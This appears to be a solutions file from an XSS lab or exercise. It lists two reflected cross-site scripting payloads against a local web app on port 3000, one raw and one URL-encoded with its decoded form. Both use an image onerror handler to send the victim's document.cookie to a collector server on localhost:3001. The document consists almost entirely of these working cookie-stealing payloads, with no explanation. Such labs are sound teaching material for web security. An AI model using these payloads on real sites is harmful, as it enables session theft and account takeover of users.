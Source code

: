 
# Solutions
1. `http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>`

2. encoded - `%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
`
  
   decoded - `<img src=x onerror="var img = document.createElement('img'); img.src = 'http://localhost:3001/cookie?data=' + document.cookie;">`
